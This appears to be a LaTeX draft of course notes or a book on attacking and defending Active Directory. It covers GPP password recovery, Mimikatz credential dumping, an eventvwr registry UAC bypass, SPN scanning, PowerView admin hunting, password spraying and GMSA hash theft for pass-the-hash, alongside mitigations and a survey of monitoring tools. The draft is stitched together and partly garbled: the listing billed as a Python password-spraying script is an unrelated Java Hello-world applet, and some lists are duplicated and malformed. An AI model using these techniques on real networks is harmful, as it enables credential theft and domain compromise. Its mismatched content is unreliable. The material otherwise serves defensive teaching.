Containment: Rapidly isolating affected systems and networks to prevent further spread. This includes capturing forensic images, updating firewalls, blocking unauthorized access, closing specific ports, and rotating credentials.
Eradication: Eliminating the root cause of the incident and removing all malicious components.
Recovery: Restoring affected systems and services to normal operation.
Post-Incident Activity: Conducting a post-mortem analysis to identify lessons learned and improve future response capabilities.
Key Distinction: Incident Response (IR) vs. Digital Forensics (DF)

IR: "Immediate and aimed at stopping threats and reducing impact during an incident to resume normal business operations." Highly time-sensitive.
DF: "About precision—collecting, preserving, and analyzing evidence for legal or potential legal matters (civil or criminal)." Focuses on strict chain of custody and legal admissibility standards.
\chapter{Attacker's View of Active Directory}

\textbf{Defender's Dilemma:}
\begin{itemize}
    \item Attacker just need to win once
    \item Defenders need to win all the time
    \end{itemize}

    \textbf{Attacker's Dilemma:}
    \begin{itemize}
        \item Attackers need to evade all detection
        \item Defenders just need on alarm or trigger to know attackers are in
        \item "Defender's Dilemma vs. Intruder's Dilemma" - Tao Security (2009)
    \end{itemize}

\section{Assume Breach}

\subsection{Assume Breach Mentality}
\begin{itemize}
    \item Prepare for threats beyond the Wall (Defense in Depth / Layered Defense Security) - CYBER RESILIENCE
    \item Detect and Respond to threats (Threat Hunting / IOC) - CYBER AGILITY
    \item Prevention is still important but critical to move beyond it

\end{itemize}

\subsection{Adversarial Tactics, Techniques, and Common Knowledge (ATT\&CK)}

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{mitreattack.png}
    \caption{Red Team Tactics, Techniques, and Procedures (TTPs)}
    \label{fig:placeholder}
\end{figure}

\subsection{Active Directory}
\begin{itemize}
    \item Active Directory Domain Services (AD DS)-A set of services to manage network resources.
    \item Domain Controller (DC)-Server running AD DS.
    \item Domain Admin (DA)-The privileged user group that has full control of network resources in the domain.
    \item  Local Administrators-The privileged user group that has full control for resources contained within the local machine.
\end{itemize}

\subsection{Windows Authentication Types}
\begin{itemize}
    \item NTLM Authentication
    \begin{itemize}
        \item Challenge-Response Protocol
    \end{itemize}
\item Kerberos
\item Single Sign-On (SSO)
\end{itemize}

\subsection{NTLM Authentication}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{ntlmauth.png}
    \caption{NTLM Authentication}
    \label{fig:placeholder}
\end{figure}

\subsection{Kerberos Authentication}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{kerberosauth.png}
    \caption{Kerberos Authentication}
    \label{fig:placeholder}
\end{figure}
\begin{itemize}
    \item \textbf{Ticket Granting Ticket (TGT) contains:}
    \begin{itemize}
        \item Privilege Attribute Certificate (PAC) stores
        \begin{itemize}
            \item Account Name
            \item Security Identifiers (SIDs)
            \item Group Membership
        \end{itemize}
    \end{itemize}
\item User requests for TGT by sending timestamp that is encrypted with user's secret key (NTLM Hash for RC4 Cipher / RC4 HMAC Hash)
\item TGT is encrypted and its PAC is signed by the domain account \texttt{krbtgt's} secret key (NTLM Hash)-Only readable by Domain Controllers (DCs)
\item Service ticket issued by Ticket Granting Service (TGS) is encrypted by service account's secret key (NTLM Hash)
\end{itemize}

\subsection{High Level Methodology}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{highlevel.png}
    \caption{High Level Methodology}
    \label{fig:placeholder}
\end{figure}

\subsection{Initial Toehold}
\begin{itemize}
    \item Unpatched Vulnerabilities
    \item Spearphishing
    \item Weak Credentials
\end{itemize}

\subsection{Privilege Escalation: Use to Local Admin}
\begin{itemize}
    \item Unpatched Vulnerabilities
    \item System Misconfigurations
    \begin{itemize}
        \item Passwords stored in \texttt{SYSVOL} or Group Policy Preference (GPP)
    \end{itemize}
\end{itemize}

\subsection{Passwords Stored in \texttt{SYSVOL}}
\begin{itemize}
    \item \texttt{SYSVOL}
    \begin{itemize}
        \item Domain-wide shared folder
        \item Stores logon scripts, domain group policies
        \item Any authenticated user on the domain can access it
    \end{itemize}
\item Scripts with cleartext admin credentials are stored in \texttt{SYSVOL}
\item Group Policy with password defined for Local Administrator account:
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adminpwd.png}
    \caption{Local administrator account password hash}
    \label{fig:placeholder}
\end{figure}
\end{itemize}
\begin{itemize}
    \item Encryption is well-known
    \item All passwords are encrypted using a derived Advanced Encryption Standard (AES) key
    \item The 32-byte key is as follows:
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aes.png}
    \caption{32-byte AES encryption key}
    \label{fig:placeholder}
\end{figure}
\end{itemize}
\begin{itemize}
    \item Once the hash is cracked offline, the plaintext administrative passwords is revealed:
    \item 
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{crackedpwd.png}
    \caption{Cracked plaintext administrative password}
    \label{fig:placeholder}
\end{figure}
\end{itemize}
\subsection{Passwords Stored in \texttt{SYSVOL} Mitigation\& Detection}
\begin{itemize}
    \item Install KB2962486 to disable new credentials from being stored in GPP and delete existing XMLs / Group Policies
    \item Plant an XML file with "Password" in \texttt{SYSVOL}
    \item Configure SACL on the XML to audit for access
\end{itemize}

\subsection{Why We Need Privilege Escalation}
\begin{itemize}
    \item Gain access to implicit trust relationship artifacts
    \item Assume artifacts found on one machine could be used to access other machines
\end{itemize}

\subsection{Dump Implicit Trust Relationship Artifacts}
\begin{itemize}
    \item Dump and crack local account hashes (Hashes == Password)
    \item Dump credentials stored in-memory
    \item Dump Kerberos tickets
    \item Dump access tokens
\end{itemize}

\subsection{Dump Credentials In-Memory Using Mimikatz}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{mimikatz.png}
    \caption{In-memory credential dump using Mimikatz tool}
    \label{fig:placeholder}
\end{figure}
\subsection{Dump Credentials Mitigation}
\begin{itemize}
    \item Audit for misconfigurations that can lead to privilege escalation with \texttt{'windows-privesc-check'}
    \item Install KB2871997 on Windows 7/8/10/11 and on Windows Server 2008/2012/2019
    \item Deploy Application Allowlisting (AppLocker \& Device Guard)
    \item Get rid of Windows Server 2003 completely
    \item Incorporate PAWs and SAWs (Privileged / Secured Administrative Workstations) as Domain Admins should not be logging on to machines with lower trust levels (e.g., a norml end-user workstation or laptop).
\end{itemize}

\subsection{Dump Credentials Detection}
    \begin{itemize}
    \item Monitor Registry Value for \texttt{"UseLogonCredential"} at 
    \texttt{HKEY\_LOCAL\_MACHINE\textbackslash SYSTEM\textbackslash CurrentControlSet\textbackslash Control\textbackslash SecurityProviders\textbackslash Wdigest}
    \item Value: \texttt{"1"} to enable cleartext passwords to be stred in LSASS
    \item Honey Credentials
\end{itemize}

\subsection{Dump Credentials Detection (Not a Good Idea)}
\begin{itemize}
    \item Detect Mimikatz in-memory using \texttt{SYSMON} (be careful of performance impact)
    \item Look for loading of:
\end{itemize}
    \begin{itemize}
        \item \texttt{C:\textbackslash System32\textbackslash WinSCard.dll}
        \item \texttt{C:\textbackslash System32\textbackslash cryptdll.dll}
        \item \texttt{C:\textbackslash System32\textbackslash hid.dll}
    \end{itemize}
            \begin{itemize}
                \item     \texttt{C:\textbackslash System32\textbackslash WinSCard.dll}
            \end{itemize}
            \begin{itemize}
                \item \texttt{C:\textbackslash System32\textbackslash cryptdll.dll}
            \end{itemize}
            \begin{itemize}
                \item \texttt{C:\textbackslash System32\textbackslash hid.dll}
            \end{itemize}
            \begin{itemize}
                \item \texttt{C:\textbackslash System32\textbackslash samlib.dll}
            \end{itemize}
            \begin{itemize}
                \item \texttt{C:\textbackslash System32\textbackslash vaultcli.dll}
            \end{itemize}
\item LSA Protection Enabled-\texttt{mimidrv.sys} (Mimikatz's driver to turn off LSA Protection)
\end{itemize}

\subsection{User Access Control (UAC) Bypass}
\begin{itemize}
    \item Old School
    \begin{itemize}
        \item Privilege File Copy (File Operation COM)
        \item DLL Hijacking
        \item Auto-elevation
    \end{itemize}
\item New School
\begin{itemize}
    \item Fileless UAC Bypass via Registry Hijacking
    \item Write to \texttt{HKCU:\textbackslash SOFTWARE\textbackslash Classes\textbackslash mscfile\textbackslash shell\textbackslash open\textbackslash command.dll}
    \item Launch \texttt{eventvwr.exe}
\end{itemize}
\end{itemize}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{eventvwr.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\subsection{UAC Bypass Mitigation\& Detection}
\begin{itemize}
    \item Reduce users with administrative privileges
    \item Set UAC level to "Always Notify" instead of default configuration bypassed with Disk Clean up
    \item Monitor Registry entry:\texttt{"HKCU\textbackslash SOFTWARE\textbackslash Classes\textbackslash mscfile\textbackslash shell\textbackslash open\textbackslash command"}
\end{itemize}

\subsection{Situational Awareness}
\begin{itemize}
    \item Port Scan
    \item DNS Enumeration (\texttt{SRV records, *.\_tcp.domain.com})
    % \item Password / Hash Spray (commented out for debugging math mode error)
    \item Service Principal Name (SPN) Scanning
    \item Domain Enumeration and Admin Hunting
    \item BloodHound
\end{itemize}

\subsection{Password / Hash Spray}
\begin{itemize}
    \item Quick and dirty way to identify access across the network
    \item Good for pentests that do not require stealth
\end{itemize}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{spray.png}
    \caption{Password / Hash Spray}
    \label{fig:placeholder}
\end{figure}
\subsection{Service Principal Name (SPN) Scanning}
\begin{itemize}
    \item SPN is used to uniquely identify service instances for Kerberos authentication
    \item Gathers services across the domain (without a single port scanned)
\end{itemize}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{spnscan.png}
    \caption{SPN scan}
    \label{fig:placeholder}
\end{figure}
\subsection{Domain Enumeration}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{domenum1.png}
    \caption{Domain user enumeration}
    \label{fig:placeholder}
\end{figure}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{domenum2.png}
    \caption{Domain Admin enumeration}
    \label{fig:placeholder}
\end{figure}
\subsection{Domain Enumeration with PowerView}
\begin{itemize}
    \item PowerView
    \begin{itemize}
        \item Based on PowerShell
        \item Capitalize on PowerShell alternatives for \texttt{"NET"} command 
        \item    Capitalize on Win32 API
        \item Gain network situational awareness
\end{itemize}
\end{itemize}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{pv1.png}
    \caption{Domain enumeration using the PowerView tool}
    \label{fig:placeholder}
\end{figure}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{domenum3.png}
    \caption{Domain Controller (DC) enumeration using the PowerView tool}
    \label{fig:placeholder}
\end{figure}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{trustenum.png}
    \caption{Domain trust enumeration using the PowerView tool}
    \label{fig:placeholder}
\end{figure}
\subsection{Admin Hunting with PowerView}
\begin{itemize}
    \item Implicit trust relationship
    \item Look at where the current user has Local Administrator Right
    \item Look for where privileged users are logged on to
    \item Target machines with privileged users
    \item Steal their tokens / credentials
    \item Profit
\end{itemize}

\subsection{Admin Hunting with PowerView Commands}
\begin{itemize}
    \item \texttt{Invoke-UserHunter}
    \begin{itemize}
        \item Get a list of hosts from AD
        \item Get a list of users of a specific Domain Group (Domain Admins / Local Administrator)
        \item Run \texttt{NetSessionEnum} (User Sessions) and \texttt{NetWkstaUserNum} (Logged On Users with information gathered)
        \item (Optionally) Check if current user has :Local Administrators rights on each host
    \end{itemize}
\end{itemize}












\chapter{Breaching Active Directory}

\begin{abstract}
Active Directory (AD) underpins identity and access management for the majority of enterprise Windows environments, with approximately 90\% of Global Fortune 1000 companies relying on it. As the dominant suite for managing Windows domain-based networks, AD orchestrates authentication, authorization, and policy enforcement across an organization's entire IT estate. This central role makes AD both indispenable and a prime target for adversaries-compromise of AD effectively grants an attacker "keys to the kingdom," enabling lateral movement, privilege escalation, and persistent access.

Two of the most common attack vectors for obtaining initial AD credentials are Open-Source Intelligence (OSINT) and phishing. OSINT leverages publicly available information-from corporate websites, social media, data breaches, and other online sources-to identify likely usernames, email formats, or even leaked password hashes and fragments. Phishing, by contrast, uses deceptive communications, often via email or SMS, to trick users into revealing credentials or executing malicious payloads. Both methods bypass traditional perimeter defenses and exploit human factors, underscoring the need for defender's to better safeguard their AD territories by proactively implemented layered defense in depth security measures.
\end{abstract}
This chapter examines the prevalence of AD in enterprise emvironments, the high-value nature of its compromise, and the operational realities of OSINT and phishing as entry points. By analyzing attacker methodologies and defensive flaws, gaps, and weaknesses, it highlights the necessity for layered security controls, user awareness training, and continuous monitoring to protect the integrity of enterprise identity infrastructure that is Active Directory (AD).

\section{NTLM Authentication Services}
\textit{New Technology LAN Manager (NTLM)} is a suite of Microsoft security protocols that facilitate authentication, integrity, and confidentiality for users within an Active Directory (AD) environment. It remains a legacy authentication mechanism, yet it is still widely present in modern enterprise networks due to backward compatibility requirements and the sheer number of services that rely on it.

A core component of NTLM-based authentication is \textit{NetNTLM,} which implements a challenge-response authentication model. This mechanism is frequently used by both internal and external public internet-facing network services. Within an internal network, NetNTLM plays a crucial role in allowing applications and services to authenticate users without directly handling sensitive password data; however, a critical security consideration is that some services using NetNTLM are exposed to the internet-deliberately or inadvertently-making them potential entry points for attackers.

Common examples of internet-exposed services that use NetNTLM include:
\begin{itemize}
    \item \textbf{Internally-hosted Microsoft Exchange email servers} that present an Outlook Web Application (OWA) login portal to users over the Internet.
    \item \textbf{Remote Desktop Protocol (RDP) services} that are made publicly accessible, often for remote administration or user access.
    \item \textbf{Virtual Private Network (VPN) endpoints} integrated with AD for user authentication.
    \item \textbf{Internet-facing web applications} that rely on Windows Authentication (NetNTLM) for login functionality.
\end{itemize}

NetNTLM-sometimes simply referred to as \textit{"Windows Authentication"} or \textit{"NTLM Authentication"}- operates by positioning the application as an intermediary between the client and the Domain Controller (DC). When a user attempts to authenticate, the application does not verify the credentials itself. Instead, it forwards authentication data to the DC in the form of a cryptographic challenge. If the DC verifies the response as correct, the application grants the user access.

This design ensures that the application never stores or processes plaintext AD credentials directly, reducing the risk of credential theft from the application's own storage or logs. In theory, only the Domain Controller ever has the capability to validate the actual credentials, preserving the security of the authentication process.

This intermediary model is an important security safeguard, but it also introduces unique attack vectors-particularly if the services are exposed to the internet. Attackers can exploit such exposure to capture authentication exchanges or relay them to other services, potentially leading to unauthorized access.

This process is illustrated in the diagram below:
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{1ntlmauth.png}
    \caption{NTLM authentication request process}
    \label{fig:placeholder}
\end{figure}
\section{Brute-Force Login Attacks}
In an Active Directory (AD) environment, traditional brute-force attacks-where an attacker systematically attempts many password combinations for a single user account-are rarely effective in practice nowadays. This is because most organizations configure \textit{account lockout policies} that temporarily disable an account after a set number of consecutive failed login attempts. Such policies, while effective at stopping unlimited guessing on a single account, do not effectively eliminate the immediate threat of credential guessing entirely.

To bypass these lockout restrictions, attackers often turn to a more measured technique known as \textit{password spraying.} Unlike traditional brute-forcing, which targets one account with many passwords, password spraying attacks flips this approach: the attacker chooses a single password (or a very small subset of passwords) and attempts to authenticate against a large number of usernames contained within the domain. The list of usernames is retrieved by way of enumerating all users within the domain.

The effectiveness of this method lies in human behaviors. Users-across industries and organizations-often rely on weak, predictable, or reused passwords. Examples include seasonal variations (e.g., \textit{Summer2025!),} company names plus year, or common patterns like \textit{Welcome123.} Since the attacker is only testing one password per account in each pass, the account lockout mechanism is far less likely to be triggered. Over time, the attacker can rotate through a small list of candidate passwords, spacing out attempts to avoid detection and circumvent these lockout thresholds.

However, this tactic is not without risk to the attacker. Even when executed slowly and carefully, password spraying can produce a large volume of failed authentication attempts across many accounts. In a well-monitored environment, security teams can detect these anomalies through \textit{Security Information and Event Management (SIEM)} systems, Domain Controller event logs, or intrusion detection alerts. Common indicators include multiple failed logon attempts from a single source IP, a pattern of failed attempts spread evenly across many accounts, or repeated attempts against inactive or disabled accounts.

When password spraying is successful, the attacker obtains valid AD credentials without triggering a lockout event. These credentials can then be used to access internal resources, move laterally, or escalate privileges. Because of this, password spraying remains a highly attractive option for attackers targeting AD-particularly when combined with prior username harvesting via OSINT, phishing, or enumeration of public services or the domain itself.

In sum, while brute-forcing login attempts in the traditional sense are mostly mitigated by lockout policies, password spraying sidesteps this defense and remains a common, real-world threat to enterprise authentication systems. Defenders must therefore focus not only on lockout configurations but also on proactive monitoring, user education, and enforcing strong, unique passwords across the estate.

\section{Password Spraying}
Password spraying is a targeted credential-guessing technique used against Active Directory environments to identify accounts with weak or commonly used passwords-without triggering account lockout mechanisms. Unlike traditional brute-force attacks, which attempt multiple passwords for a single user account, password spraying tests a single password (or a very small list) against a large number of domain-joined accounts.

The primary advantage for an attacker is \textit{stealth.} By limiting the number of attempts per account in each pass, they can greatly avoid triggering account lockout thresholds and alerts while still covering a large portion of the user populace. This is particularly effective when the attacker has already harvested usernames and gathered information through means of OSINT techniques, phishing, spearphishing campaigns, or enumeration techniques.

When targeting services that support NTLM authentication, attackers often use automated scripting tools to perform password spraying at scale. The example below demonstrates the use of a Python-based NTLM password spraying script:
\begin{lstlisting}
// Hello.java
import javax.swing.JApplet;
import java.awt.Graphics;

public class Hello extends JApplet {
    public void paintComponent(Graphics g) {
        g.drawString("Hello, world!", 65, 95);
    }    
}
\end{lstlisting}




















Organizations use Active Directory (AD) monitoring tools to ensure their systems run securely and remain compliant. There are a variety of Active Directory monitoring tools available from multiple vendors, including Microsoft and other third-party providers, ranging from enterprise-level tools to free options, which enable users to secure their AD environment better. Organizations should select the monitoring tool that best fits their environment.

\subsection{\textbf{Free Microsoft Tools for AD Monitoring}}

Microsoft provides several basic, built-in tools for monitoring Active Directory. Below are the details

\begin{enumerate}
    \item \textbf{Windows Event Viewer:} Windows Event Viewer is one of the free, built-in tools that comes with every edition of Microsoft Windows. Event Viewer, is widely regarded as the industry standard for viewing and managing event logs, which maintain records of noteworthy events and errors occurring at the hardware and software levels. The event logs maintained by Windows and Active Directory can be viewed by the administrator using the Event Viewer access interface in the Windows GUI, and used by the administrator to determine the performance of systems. Using this tool, administrators can analyze event logs for noteworthy events, including, but not limited to, account lockouts, user logins, changes to AD objects, and issues related to Active Directory.
    \item \textbf{Windows PowerShell:} Windows PowerShell is a command-line shell and scripting language developed by Microsoft for system administration. Built on the .NET framework, Microsoft’s goal was to empower power users and information technology professionals to manage and automate the administration of the Windows operating system and applications. In addition, it can be used to write scripts to support the automation of many Active Directory monitoring tasks. Windows PowerShell is built on the .NET Framework, providing easy access to the .NET base class library.
    \item \textbf{Performance Monitor:} Performance Monitor (\texttt{perfmon.exe}) is an excellent built-in tool that Microsoft provides to monitor performance metrics and resource utilization in real time. It is a MMC (Microsoft Management Console) snap-in that allows administrators to collect, view, and analyze performance statistics, including CPU, memory, disk and network activity. This application supports troubleshooting and diagnosis of performance problems and understanding service and application resource utilization. Performance Monitor can also deploy Event Tracing for Windows (ETW), which allows users to create and analyze trace logs to detect sophisticated threats such as, such as replication issues or Kerberoasting.
    \item \textbf{Windows Group Policy:} Windows Group Policy provides a way for administrators to define policies that audit user and system activity. With Windows, Microsoft built an auditing framework, allowing configuration of basic and advanced audit policies, all for auditing Active Directory events. Administrators use the Group Policy Management Console (GPMC) to manage Group Policies within each domain controller, as it provides a unified interface from which administrators can manage Group Policy Objects (GPOs), Windows Management Instrumentation (WMI) filters, and the associated permissions across an entire enterprise network. GPMC simplifies the configuration of GPOs, allowing administrators to create, update, remove, and link them to the appropriate sites, domains, and organizational units more effectively. GPMC offers a single management console for managing Group Policy. As an added benefit, it replaces the need for multiple free or paid tools that were previously required to perform specific Group Policy-related tasks. Administrators can install GPMC on Windows client systems utilizing Remote Server Administration Tools (RSAT), or enable GPMC as a feature on a Windows Server.
    \item \textbf{DCdiag:} DCdiag, a command-line tool, helps administrators assess the performance and health of a domain controller by examining replication status and service operations. Alongside \texttt{repadmin}, administrators rely on DCdiag for monitoring and troubleshooting domain controllers. DCdiag performs comprehensive health checks, including role assignment verification and \texttt{SYSVOL} integrity validation. Administrators generate reports either manually or through scripts, using these tools to identify replication issues and maintain domain controller consistency.
\end{enumerate}

\subsection{\textbf{Paid Microsoft Tools for AD Monitoring}}

\begin{enumerate}
    \item \textbf{System Control Operations Manager (SCOM):} Microsoft provides SCOM as the premier business analytics tool to analyze the availability, performance, and health of on-premises and hybrid Active Directory infrastructures. SCOM can provide monitoring of key active directory components and issue alerts and reports on issues such as replication failures, protocol availability, and domain controller health; all through the agent-based platform and unique Management Packs, such as the Active Directory Domain Services Management Pack. The important dashboards and reports provide administrators with rich functionality.
    \item \textbf{Azure AD Connect Health: }Azure AD Connect Health provides a way to monitor hybrid AD options for a fee. Azure AD Connect Health delivers rich analytics and monitoring on Azure AD and on-premises AD service health, synchronization, authentication, and connectivity. It provides analytics for Azure AD Connect, AD Federation Services, and domain health in hybrid cloud deployments. Microsoft developed Azure AD Connect Health to assist in the administration of hybrid identity management and provide the IT Department’s insight and assurance of secure, reliable authentication for both on-premises and cloud-based workloads.
\end{enumerate}

\subsection{\textbf{Third-Party Tools For Active Directory Monitoring}}

Below are some prominent third-party Active Directory monitoring tools:

\begin{enumerate}
    \item \textbf{Paessler PRTG Network Monitor:} Paessler PRTG Network Monitor provides a multi-faceted network and infrastructure option with a sensor to monitor Active Directory. Many administrators consider PRTG a very good tool for total IT network monitoring, allowing users to get real-time information to understand things like inactive accounts, changes in AD groups, replication issues, and other important problems very quickly. PRTG monitors for security event logs, looking for user access attempts, audits Active Directory, and shows the results in clear dashboards and reports. IT professionals usually tout PRTG for its ability to scale, ease of use, and the depth of visibility into overall network and AD health, which allows them to lower security threats and reduce downtime.
    \item \textbf{SolarWinds Server and Application Monitor(SAM):} SolarWinds Server \& Application Monitor (SAM) is one of the most robust monitoring tools for servers, applications, and infrastructure components, including Active Directory. SAM offers the flexibility of custom AD monitoring and large “out-of-the-box” templates for monitoring AD configurations. SAM can monitor a wide range of AD events including domain controller performance and health, AD replication status, logon failures, and even service availability. SolarWinds reports additional performance data based on configurable thresholds making the IT teams quick in finding Active Directory problems and ultimately allow for timely remediation.
    \item \textbf{Manage Engine ADAudit Plus:} ManageEngine ADAudit Plus is designed for monitoring the changes in the Active Directory environment and the activities of users in real-time. It provides in-depth audit reports that administrators can trust to identify security risks and demonstrate compliance with required regulations. This web-based application also provides auditing, management, user activity tracking, and logon-event tracking for file servers, as well as integration with Azure AD. IT teams enjoy using ADAudit Plus since it is easy to navigate and presents audit reports clearly and completely with all the data they need, including user login history, machine details, account lockout times, and more. When users lockout critical administrative accounts, ADAudit Plus allows system administrators to be notified immediately. System administrators also appreciate how ADAudit Plus notifies them of lock outs, allowing them to improve productivity while decreasing downtime.
    \item \textbf{Quest Active Administrator:} Quest Active Administrator is an integrated platform that brings together various administrative, security, and compliance processes across the AD environment. IT teams can easily manage Active Directory objects, like users and groups, in combination with other IT automation tools provided by the product, and with depth of auditing capabilities that provide better visibility into changes made via AD as organizations iteratively shift to a Zero Trust Security framework. The platform can provide administration automation across user provisioning and group management, thereby reducing administrative burden and mitigating individual administrative errors. Additional tools for security monitoring, reporting, permissions analysis, and user and group management.
\end{enumerate}

Given the critical nature of Active Directory for authorization and authentication, defenders must monitor Active Directory effectively to keep their organization secure, compliant, and able to drive business objectives. There are several factors to evaluate when determining the best monitoring solution. For example, the free Microsoft tools require significant manual work for compliance activities or real-time security monitoring, provide only basic alerting and reporting capabilities, and lack the depth that a third-party solution can offer. Conversely, third-party solutions provide an opportunity for organizations to determine the level of control and automation they require to keep their Active Directory environment secure and compliant. It is important that you evaluate options based on the scale of your operations, compliance needs, and the complexity of your Active Directory architecture since pricing models and feature sets vary substantially.

To keep your Active Directory environment secure, compliant, and operational in the long term, you need to manage events using a monitoring solution that is regularly updated by vendors as new technologies and trends emerge in the Active Directory space.

Furthermore, while Microsoft provides free Windows Server monitoring tools that include basic, built-in Active Directory monitoring, for most organizations with compliance needs or even those looking for effective preventive security, I recommend using third-party solutions. For example, Paessler PRTG, SolarWinds SAM, ManageEngine ADAudit Plus, and Quest Active Administrator have an advantage over the Microsoft solution due to their distinct advantages in alerting, automation, analysis, and usability.

\chapter{SPN Scanning-Service Discovery without Network Port Scanning}

The best way to discover services in an Active Directory environment is through what I call “SPN Scanning.”

The primary benefit of SPN scanning for an attacker over network port scanning is that SPN scanning doesn’t require connections to every IP on the network to check service ports. SPN scanning performs service discovery via LDAP queries to a Domain Controller. Since SPN queries are part of normal Kerberos ticket behavior, it is difficult, if not infeasible to detect, while netowkr port scanning is pretty obvious.

Service Principal Names (SPNs) are required for discovery of services that leverage Kerberos authentication.


From the Microsoft Kerberos specification:

An SPN is a string of the following format. For more information on the <alphanum> element, see [RFC2396] section 1.6.
SPN = serviceclass “/” hostname [“:”port] [“/” servicename]
serviceclass = alphanum
servicename = alphanum
Where:
serviceclass is a string that identifies the class of the service, such as “www” for a Web service or “ldap” for a directory service.
hostname ([RFC2396] section 3.2.2) is a string that is the name of the system. This SHOULD be the fully qualified domain name (FQDN).
port ([RFC2396] section 3.2.2) is a number that is the port number for the service.

The servicename segment is a string that is the distinguished name (DN), objectGuid, Internet host name, or fully qualified domain name (FQDN) for the service.
An application can supply a name of the form “RestrictedKrbHost/<hostname>” when its callers have provided the hostname but not the correct SPN for the service. Applications SHOULD NOT use “RestrictedKrbHost/<hostname>” due to the security considerations in section 5.1.2. Applications calling GSS-API directly MUST provide a target name which SHOULD be an SPN<28> for their service applications for Kerberos authentication.

Some of the more interesting services and example SPNs:

SQL servers, instances, ports, etc.
MSSQLSvc/adsmsSQLAP01.adsecurity.org:1433
Exchange
exchangeMDB/adsmsEXCAS01.adsecurity.org
RDP
TERMSERV/adsmsEXCAS01.adsecurity.org
WSMan / WinRM / PS Remoting
WSMAN/adsmsEXCAS01.adsecurity.org
Hyper-V Host
Microsoft Virtual Console Service/adsmsHV01.adsecurity.org
VMWare VCenter
STS/adsmsVC01.adsecurity.org


Here’s the result of a PowerShell script that performs SPN scanning for Microsoft SQL Servers.
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{spnscan1.png}
    \caption{Service Principal Name (SPN) Scan}
    \label{fig:placeholder}
\end{figure}

\chapter{Attacking Active Directory Group Managed Service Accounts (GMSAs)}

This post is meant to highlight what GMSAs can do and what an attacker can do if not protected appropriately. We have seen limited usage of Group Managed Service Accounts in AD environments when we perform Active Directory Security Assessments at Trimarc. GMSAs should be used wherever possible to replace user accounts as service accounts since the passwords will rotate automatically.

Group Managed Service Accounts (GMSAs)
User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed. This means that the GMSA has to have security principals explicitly delegated to have access to the clear-text password. Much like with other areas where delegation controls access (LAPS), determining who should have be delegated access needs to be be carefully considered.

Key Points for Group Managed Service Accounts (GMSAs) :

The GMSA password managed by AD.
Computers hosting GMSA service account(s) request current password from Active Directory to start service.
Configure the GMSA to allow computer accounts access to password.
If an attacker compromises computer hosting services using GMSA, the GMSA is compromised.
If attacker compromises an account with rights to request GMSA password, the GMSA is compromised.
Group Managed Service Accounts have the object class “msDS-GroupManagedServiceAccount” and associated attributes specific to GMSAs. These properties include:

msDS-GroupMSAMembership (PrincipalsAllowedToRetrieveManagedPassword) – stores the security principals that can access the GMSA password.
msds-ManagedPassword – This attribute contains a BLOB with password information for group-managed service accounts.
msDS-ManagedPasswordId – This constructed attribute contains the key identifier for the current managed password data for a group MSA.
msDS-ManagedPasswordInterval – This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{msdspass.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Running the AD PowerShell cmdlet Get-ADServiceAccount, we can retrieve information about the GMSA, including specific GMSA attrbiutes. This GMSA is a member of the domain Administrators group which has full AD \& DC admin rights to the domain. The screenshot shows that the password changed recently and won’t change for a few weeks – changed on 5/11/2020 and configured to change every 30 days. This means that if we can get the password for this account, we have almost a month to use the account credentials before it changes. We can also identify a group that can retrieve the password data. We’ll take a look at this is a bit.

Gaining Access to a Server Running a Service as a Group Managed Service Account

Once we get on the server/servers running services under the context of the GMSA we have some options. Let’s take a look…

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{srvcacct.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

We can identify the LCNSQL01 server is registered as a Service Principal Name (SPN) on the GMSA and we see this server is in the Servers OU.

If we can compromise an account with rights to the Servers OU, or delegated admin rights via GPO Restricted Groups or similar, or have the ability to modify a GPO that links to this OU, we can we can get admin rights on the LCN server
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{lcnsrv.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

After getting admin rights on the server associated with the GMSA, we can see there is a service running under the context of the GMSA (I cheated here and configured Windows License Manager Service to start with this account).

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{acct.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Since there’s a service running under the context of an account, we can get the password data associated with the service account. Here we use Mimikatz to dump LSASS using sekurlsa::logonpasswords.

That’s interesting, the password looks a bit unusual: “\_SA\_{262E99C9-6160-4871-ACEC-4E61736B6F21}”

That’s not a standard password (and not actually the one associated with the account). What’s more, this password hash isn’t correct. Microsoft loads the GMSA credential into LSASS but doesn’t seem to use it.

To get the right NT password hash we need to use the Mimikatz command “Sekurlsa::ekeys” which is what’s used to get Kerberos tickets.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{mimi.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

After running this Mimikatz command, we are able to see password hash. With this password hash, we can pass the hash (PTH) to compromise AD.

But what if we couldn’t get access to the server itself?

Compromising an Account with GMSA Password Access
We know there is a group configured with rights to get the GMSA password, let’s take a look at that.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{msdsgrp.png}
    \caption{Enter Caption}
